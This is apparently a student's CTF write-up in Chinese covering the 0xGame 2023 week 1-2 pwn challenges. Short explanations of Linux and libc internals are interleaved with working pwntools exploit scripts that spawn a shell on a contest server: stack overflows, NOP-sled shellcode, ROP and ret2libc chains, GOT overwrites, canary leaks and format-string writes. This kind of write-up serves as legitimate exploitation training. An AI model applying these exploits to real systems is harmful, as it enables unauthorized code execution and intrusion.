# [2023 week1] 0xgame-CTF


## 找不到且不对劲的 flag
```bash
ls -a 显示隐藏文件
cd .secret 
cat flag  即可
```
## 永远进不去的后门
read 函数前关于参数的汇编表明 buf 与 rbp 相差 0x40
```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
file=remote("8.130.35.16",51002)
print(p64(0x401298))
payload=b"a"*0x48+p64(0x401298)

file.send(payload)
file.interactive()
```
## 随便乱搞的 shellcode
mmap 是一种内存映射文件的方法，即将一个文件或者其他对象映射到进程的地址空间，实现文件磁盘地址和进程虚拟地址空间中一段虚拟地址的一一对映关系。实现这样的映射关系后，进程就可以采用指针的方式读写操作这一段内存，而系统会自动回写脏页面到对应的文件磁盘上，即完成了对文件的操作而不必再调用 read、write 等系统调用函数。相反，内核空间对这段区域的修改也直接反映到用户空间，从而可以实现不同进程间的文件共享

time()：参数为 NULL 时，返回值是从 1970 年 1 月 1 日至今所经历的时间（以秒为单位）


rand() 产生伪随机数需要一个"种子"。如果我们只调用 rand() 函数而没有设置随机种子，rand() 在调用时会自动将随机种子设为 1。随机种子相同，每次产生的随机数也会相同。解决办法是使用 srand() 函数来生成随机种子

如果在程序中定义了一个函数，那么在编译时系统就会为这个函数代码分配一段存储空间，这段存储空间的首地址称为这个函数的地址。而且函数名表示的就是这个地址。既然是地址，我们就可以定义一个指针变量来存放，这个指针变量就叫作函数指针变量，简称函数指针。

函数返回值类型 (* 指针变量名) (函数参数列表);

```c
void(*)(void)  --表示一个返回值为void，没有参数的函数指针
(void(*)(void))--表示将函数强转成返回值为void，没有参数的函数的类型转换
```

> Linux 中一切皆文件。文件描述符是内核为了高效管理已被打开的文件所创建的索引，它是一个非负整数（通常是小整数），用于指代被打开的文件，所有执行 I/O 操作的系统调用都通过文件描述符进行。程序刚刚启动的时候，0 是标准输入，1 是标准输出，2 是标准错误。如果此时去打开一个新的文件，它的文件描述符会是 3。
标准输入输出的指向是默认的，默认打开一个终端后，0、1、2 都指向同一个位置，也就是当前终端。我们可以修改它们的指向，也就是重定向

close(1) 关闭了标准输出

> 沙盒（英语：sandbox），计算机专业术语，在计算机安全领域中是一种安全机制，为运行中的程序提供隔离环境。通常用于试验一些来源不可信、具破坏力或无法判定其意图的程序。

换行符对应的十六进制 ASCII 码为 0x0a
从 0x20230000 开始写入
bufa() 的函数地址为 0x20230000~0x20230000+255，即 0x20230100（但不包括该地址）

NOP 指令即"空指令"。执行到 NOP 指令时，CPU 什么也不做，仅仅当作一条指令执行过去并继续执行 NOP 后面的一条指令（沿地址增大方向）
内存中的十六进制 90 即为 nop 指令


shellcraft.sh() 生成 shell 的汇编代码
asm(shellcraft.sh() ) 生成 shell 的二进制代码（在内存中存放的和这段代码完全一样）
b"90" 在内存中存放的是 "9" 和 "0" 的十六进制 ASCII 码
b"\x90" 在内存中存放的是 90（以十六进制形式）
```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
file=remote("8.130.35.16",51003)
payload=asm(shellcraft.sh()).rjust(0x100,b"\x90")  
file.sendlineafter("code:",payload)
file.interactive()
```




## 高端的 syscall
首先可以发现一个 alarm 函数，修改一下它的参数，不然影响调试

syscall 和 int 80 都是系统调用

ROPgadget --binary 文件名 --only "pop|ret" | grep rdi
ROPgadget --binary 文件名 --sting '/bin/sh'

test 命令将两个操作数进行逻辑与运算

传统的 int 0x80 系统调用

execve 系统调用号：64 位为 59，32 位为 11

flat 函数可以将多个变量转换为二进制字符串，这是官方 writeup


下面可以理解为一段 shellcode，理解一下通过系统调用获取 shell 所需要的参数
```bash
      push rax
      
      xor rdx, rdx

      xor rsi, rsi

      mov rbx,'/bin//sh'

      push rbx

      push rsp

      pop rdi

      mov al, 59

      syscall
```


系统调用号：EAX

参数：EBX、ECX、EDX、ESI、EDI、EBP

返回值：EAX

具体的函数编号在 unistd_32.h 文件中

64 位系统调用 syscall

系统调用号：RAX

参数：RDI、RSI、RDX、R10、R8、R9

返回值：RAX

具体的函数编号在 unistd_64.h 文件中

在 pwn 中一般使用 sys_execve 系统调用来获取 shell。


endbr64 这条指令在旧的 CPU 中被当作 NOP 指令，在新的 CPU 中其实也是空指令，但它被当作一个标记，用于监控间接跳转，出现在函数的开头位置。

具体来说，当发生间接跳转时，CPU 会从 IDLE 状态转换到 WAITING 状态，处于 WAITING 状态的 CPU 执行的下一条指令必须是 endbr64，如果不是则直接抛出异常；如果是，则 CPU 转回 IDLE 状态并继续执行。


SIGBUS 总是由地址未对齐引起的，而 SIGSEGV 是由非法内存地址引起的



```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
#file=remote("8.130.35.16",51004)
s=process("/home/llk/桌面/exp/ret2syscall(1)/dist/ret2syscall")
elf=ELF("/home/llk/桌面/exp/ret2syscall(1)/dist/ret2syscall")
gdb.attach(s,"b*main") //这玩意最好放前面这些东西的后边，不然脑子容易起火

rdi=0x00000000004012e3
rsi_r15=0x00000000004012e1
csu1=0x4012DA
csu2=0x4012C0
rax=0x401196
syscall=0x4011AE

#pause()
payload=b"a"*0x18+p64(0x00000000004012e3)+p64(0x404500)+p64(elf.plt.gets)+p64(0x00000000004012e3)+p64(0x3b)+p64(0x401196)+p64(0x4012DA)+p64(0)+p64(0)+p64(0x404500)+p64(0)+p64(0)+p64(0x404508)+p64(0x4012C0)
s.sendlineafter(b"Input: \n",payload )
s.sendline(b"/bin/sh\x00"+p64(syscall))

s.interactive()

```
## 我后门呢
C 库函数 size_t strlen(const char *str) 计算字符串 str 的长度，直到空结束字符，但不包括空结束字符
可以利用这一特性绕过，例如把 payload 加在空结束字符后面，使 strlen 的结果为 0 来绕过

文件执行时，libc.so 中的文件会与其组合成一个新文件，再加载到内存中运行，此时内存中不仅有原文件，还有 libc.so 文件

plt.[] 和 got.[] 都用于外部函数，即程序需要使用的外部函数
sym.[] 可用于自己构造的函数或程序代码中用到的外部函数（为外部函数时等于 plt.[] 的对应值）
函数第一次被调用之后，GOT 表中才有对应的函数地址

```python
a='python'
b=a[::-1]
print(b) #nohtyp 
c=a[::-2]
print(c) #nhy
#从后往前数的话，最后一个位置为-1
d=a[:-1]  #从位置0到位置-1之前的数
print(d)  #pytho
e=a[:-2]  #从位置0到位置-2之前的数
print(e)  #pyth
```
Python 十六进制与十进制转换
```python

10转16
hex()

16转10
eval()
```
one_gadget 专门用于寻找动态链接库中的 execve 地址



```c

int system(const char * command)  //参数为地址
```

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
file=remote("8.130.35.16",51005)
elf=ELF("../dist/ret2libc")    //不能用elf=ELF("./ret2libc")
libc=ELF("../dist/libc.so.6")  //不能用libc=ELF("./libc.so.6") 
//路径尽量填绝对路径，不知道为啥相对路径不行


payload=b"\x00"*40+p64(0x0000000000401333)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])
file.sendlineafter(b"input:\n",payload)
a=file.recvline()


puts_addr=file.recvline()
puts_addr=u64(puts_addr[:-1].ljust(8,b"\x00"))
libc_base=puts_addr-libc.sym["puts"]+0xe3afe
system_addr=libc_base+0xe3afe


payload=b"\x00"*40+p64(0x000000000040132c)+p64(0)+p64(0)+p64(0)+p64(0)+p64(system_addr)
file.sendlineafter(b"input:\n",payload)
file.interactive()
```
## got-it
利用 GOT 表、data 段和 bss 段相邻的特性，以及数组下界不做检查的特性

>  Python 3.1 新增了一个整数类方法 int.to_bytes()。它是上一篇文章中讨论的 int.from_bytes() 的反向转换方法。
>>> (258).to_bytes(2, byteorder="little")
b'\x02\x01'
>>> (258).to_bytes(2, byteorder="big")
b'\x01\x02'
>>> (258).to_bytes(4, byteorder="little", signed=True)
b'\x02\x01\x00\x00'
>>> (-258).to_bytes(4, byteorder="little", signed=True)
b'\xfe\xfe\xff\xff'
第一个参数是转换后的字节数据长度，第二个参数 byteorder 定义字节序为小端还是大端，可选参数 signed 决定是否使用补码来表示整数。


bytes 在输出的时候遵循这样的原则：读取的每个字节与 ASCII 码对照，如果是可显示的 ASCII 字符（特殊字符、字母和数字，不包括控制字符），那么就按 ASCII 码显示该字节，否则就显示为十六进制的 \x 某某。
所以 bytes 对象不能包含超出 ASCII 码 0 到 127 范围的 unicode 字符串，也不能接受超出这个范围的 unicode 字符串
b'字符串' 表示一个 bytes 对象，此时相当于一个函数 bytes('字符串')，接受 ASCII 码 0 到 127 范围内的 unicode 字符串
\x 加两位十六进制数表示一个字节
encode 转换为 bytes，bytes 可以通过 decode 转换回字符串

这说明 bytes 类型的显示格式是十六进制格式，ASCII 码则原样显示不变，但最终存储的值仍是与对应十六进制值格式等价的二进制格式值。

时刻记住：显示的是十六进制格式，存储的是对应的编码值。例如：

>>> b'a'[0]
97

显示的是字符 a，实际存储的是对应的 ASCII 码值 97
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("./got-it")
s=remote("8.130.35.16",51006)
libc=ELF("../dist/libc.so.6")
def menu(ch):
 s.sendlineafter(b">> ",str(ch).encode())
def show(idx):
 menu(2)
 s.sendlineafter(b"id: ",str(idx).encode())
 s.recvuntil(b"name: ")
 return s.recvline()[:-1]
def edit(idx,name):
 menu(3)
 s.sendlineafter(b"id: ",str(idx).encode())
 s.sendafter(b"name: ",name)
dat=show(-17)
info(dat)
libc.address=u64(dat.ljust(8,b"\x00"))-libc.sym.puts
success(hex(libc.address))
edit(-11,p64(libc.sym.system)[:6])
menu(0x2023)
s.interactive()
```

## 字符串和随机数
利用 printf 遇到 "\x00" 截断的特性获取种子，然后构造对应的正确值

> 在编写 Python 程序时，有时需要用到 C 库函数
ctypes 是 Python 的外部函数库，它提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。
Linux 上的 C 标准库动态链接文件为 libc.so.6

```python
大致模板
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.函数() //可调用/lib/x86_64-linux-gnu/libc.so.6中存在的函数了
```

> 创建一个 Python 模块（.py 文件）时，会自动加载一些内置变量，__name__ 就是其中之一。
> Python 模块中通常会定义很多变量和函数，这些变量和函数相当于模块中的一个个功能，模块被导入到别的文件中，可以调用这些变量和函数。这时 __name__ 的作用就彰显了：它可以标识模块的名字，可以显示一个模块的某功能是被自己执行还是被别的文件调用执行。
> 假设模块 A、B，模块 A 自己定义了功能 C，模块 B 调用模块 A，现在功能 C 被执行了：
如果 C 被 A 自己执行，也就是说模块执行了自己定义的功能，那么 __name__=='__main__'

如果 C 被 B 调用执行，也就是说当前模块调用执行了别的模块的功能，那么 __name__=='A'（被调用模块的名字）

name 变量与 seed 变量相差 0x20



```python
from pwn import *
from ctypes import cdll
context(arch='amd64', os='linux',log_level='debug')
#s=process("../dist/pwn")
s=remote("8.130.35.16",51001)
clib=cdll.LoadLibrary("../dist/libc.so.6")
if __name__=="__main__":
 #sleep(5)
 s.sendafter(b"Name: ",b"admin".ljust(0x20,b"a"))
 s.sendafter(b"Password: ",b"1s_7h1s_p9ss_7tuIy_sAf3?")
 s.recvuntil(b"admin".ljust(0x20,b"a"))
 seed=u32(s.recv(4))
 clib.srand(seed)
 arg1=clib.rand()^0xd0e0a0d0
 info(hex(arg1))
 arg2=clib.rand()^0x0b0e0e0f
 info(hex(arg2))
 chal=(arg1^arg2)%1000000
 info(hex(chal))
 s.sendlineafter(b"Wanna see it?",b"y")
 s.sendlineafter(b"Input the security code to continue: ",str(chal).encode())
 s.interactive()
```


# [2023 week2] 0xgame-CTF


## ezshop
没有检查下界
输入一个负数即可
## calc


要把接收到的字节转换为整数，用 int()

要输入一个整数，用 str(整数).encode() 发送


```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
f=remote("8.130.35.16",55001)
#f=process("/home/llk/桌面/exp/calc/dist/pwn")
#gdb.attach(f,"b*main")
i=1
while(i<=100):
    f.recvuntil(b"===\n")
    a=f.recvuntil(b"+")[:-1]
    b=f.recvuntil(b"=")[:-1]
    f.sendline(str(int(a)+int(b)).encode())
    i=i+1
f.interactive()
```
## ezcanary
**s[i:j] 表示获取 a[i] 到 a[j-1]
s[:-1] 去掉最后一个字符
s[:-n] 去掉最后 n 个字符
s[-2:] 取最后两个字符
s[i:j:k] 格式中，i 和 j 与上面相同，k 表示步长，默认为 1
s[::-1] 从最后一个元素复制到第一个元素（即逆序）**

### 四种方法
Canary 设计为以字节 \x00 结尾，本意是保证 Canary 可以截断字符串。泄露栈中 Canary 的思路是覆盖 Canary 的低字节，从而打印出剩余的 Canary 部分。这种利用方式需要存在合适的输出函数，并且可能需要第一次溢出泄露 Canary，之后再次溢出控制执行流

对于 Canary，虽然每次进程重启后 Canary 都不同（相比之下 GS 重启后是相同的），但同一进程中不同线程的 Canary 是相同的，通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这一特点逐字节地完全爆破出 Canary

已知 Canary 失败的处理逻辑会进入 __stack_chk_failed 函数，__stack_chk_failed 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表来劫持这个函数

已知 Canary 存放在 TLS 中，函数返回前会用这个值进行比较。当溢出尺寸较大时，可以同时覆盖栈上存储的 Canary 和 TLS 中存储的 Canary 来实现绕过

```python
hex(x)
x --  10进制整数
返回16进制数，以字符串形式表示。

p32(x)
x--  一个整型数据
返回byte型。

u32(x)
x--  byte型
返回整型。

int(a,base=x)
a-- 可以是byte也可以是str型
x是a本身的的进制。
返回10进制数，整型。
```


**注意：存在 movaps 报错现象。用 0x401216 作为返回地址时，movaps 不满足要求，此时 movaps 要求 rsp 是十六的倍数。所以用 0x401231 作为返回地址，gdb 调试可以看到此时 rsp 符合要求
 movaps 指令要求数据在内存中按 16 字节边界对齐，以提高效率**

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
s=remote("8.130.35.16",55000)
elf=ELF("../dist/pwn")
#s=process("../dist/pwn")
#gdb.attach(s,"b*main")
s.sendafter(b"Ur name plz?\n",b"a"*0x19) #gdb中不需要回车符也能成功输入
s.recvuntil(b"a"*0x19)
canary=b"\x00"+s.recv(7)

s.sendafter(b"right?",b"Y")
s.sendafter(b"plz.\n",flat([b"a"*0x18,canary,0,0x0000000000401231])) 
s.interactive()
```
## fmt1
参数放在寄存器中，超过六个时放到栈上
此时 %np 的参数编号是把 rdi 之后的参数算作第一个参数，依次往后数

%k$p 显示第 k 个参数的内容

%k$n 把目前已打印的长度写入第 k 个参数对应位置的内容中
第 39 个参数对应的是第 38 个参数的位置，可以利用它来写入


```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
s=remote("8.130.35.16",52000)
#s=process("../dist/fmt1")
#gdb.attach(s,"b*main")
s.sendafter("content: ",b"%35p%39$hhn") 
s.interactive()                      
```

> ALT+T 命令开始文本搜索
ALT+B 开始二进制搜索

eval() 函数用于执行一个字符串表达式，并返回表达式的值

## fmt2
[patchelf 相关](https://www.cnblogs.com/xshhc/p/16777707.html)
> 为什么要修改 libc 库
这里 libc.so.6 是一个符号链接，表示程序依赖的是 libc.so.2.x.x 版本的 libc，后面的路径指向该版本 libc 在本地的地址，ld 是链接器的地址。但由于本地使用的 libc 与目标机的 libc 版本不同，在不同系统上运行脚本会导致某些地址发生变化，进而出错。因此需要下载与目标机相同版本的 libc，并让程序的符号链接指向与目标机一致的 libc 版本，这样本地调试和远程调试才能得到正确的结果。

**非常感谢北理的 ethanyi9 和南邮的凉城旧梦不老坟的帮助**

> ldd -v pwn 查看当前的链接信息
找到对应的 libc 文件
strings ./libc.so.6 | grep "GLIBC"
strings  ./libc.so.6 | grep ubuntu
得到对应的 C Library
然后去 glibc-all-in-one 下载对应的链接器
amd64 64 位
i386 32 位
```bash
patchelf --set-interpreter /home/w1nd/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so /home/w1nd/Desktop/pwn

patchelf --replace-needed libc.so.6 /home/w1nd/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so pwn
```
[patchelf 详细过程](https://blog.csdn.net/llovewuzhengzi/article/details/134234465)

Python 字符串前加 f 的含义
它会格式化 {} 内的内容，不在 {} 内的内容原样输出。如果想输出 {}，就把要输出的内容用双层大括号 {{}} 包起来。

```c
#include <stdio.h>

int main()
{
  int val;
  printf("blah %n blah\n", &val);  //不会打印任何东西。 这个参数必须是一个有符号整数的指针，它存储它出现之前打印的所有字符数。
  printf("val = %d\n", val);
  return 0;
}
```

> db：1 字节
dw：2 字节
dd：4 字节



在第一个 printf 处

发现对应的 _libc_csu_init 函数的地址减去 0x1280 就是 elf 基址（elf 基址与 main 函数基址不是一回事，它相当于把可执行文件载入 IDA 后显示的汇编代码的起始位置）

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
s=process('../dist/fmt2')
#s=remote("192.168.3.253",52001)
#pause()
#gdb.attach(s,"b*main")
s.sendlineafter(b"content: ",b"%33$p")
elf_base=int(s.recv(14).decode(),16)-0x1280#七个字节 14位
print(hex(elf_base))
target=elf_base+0x4048
print(hex(target))
p=f"%{0xef}c%12$hhn%{0x100-0xef+0xbe}c%13$hhn%{0x100-0xbe+0xad}c%14$hhn%{0xde-0xad}c%15$hhna".encode() #编码即可发送
for i in range(4):
 p+=p64(target+i)
s.sendafter(b"content: ",p)
s.interactive()
```


## leak-env

> write(1,buf,N) 和 write(0,buf,N)
> 都会在终端上打印 buf 的内容

> 这里引用一段话：libc 中有一个叫 _environ 的函数，存放着当前进程的环境变量
得到 libc 地址后：libc 基址 + _environ 的偏移 = _environ 的地址
在内存布局中，它们属于同一个段，开启 ASLR 后相对位置不变，偏移只与 libc 库有关
通过 _environ 的地址得到 _environ 的值，从而得到环境变量的地址；环境变量存放在栈上，因此通过栈内的偏移，就可以访问栈上的任意变量



> putchar() 输出一个字符，但不自带换行功能。
puts() 自带换行功能，它会把末尾的 \0 替换为 \n
putchar(10) 能实现换行的原因：
putchar 输出一个字符，由于 10 是整数，系统只能把它转换为对应的 ASCII 字符。
在 ASCII 中，10 对应换行符


int main(int argc, char *argv[])
argc 是 argument count 的缩写，表示传给 main 函数的参数个数；
argv 是 argument vector 的缩写，表示传给 main 函数的参数，第一个参数 argv[0] 是程序名；所以严格来说，我们需要输入的 main 函数参数个数应为 argc-1；

libc 中有一个符号 environ，指向地址 &argv[argc + 1]；这个地址存放在栈上，environ 的地址可以通过 libc 偏移计算得到。因此在条件允许的情况下，通过泄露 environ 的值得到一个栈地址，再计算并用事先布置好的 ROP 链劫持栈上的返回地址，最终就能达到 getshell 的目的。

int() 进制转换函数无法处理空字符，会报错
libc 中的 environ 是 environ 在栈上的地址，通过 environ 变量在函数栈上的地址，就可以推出其返回地址

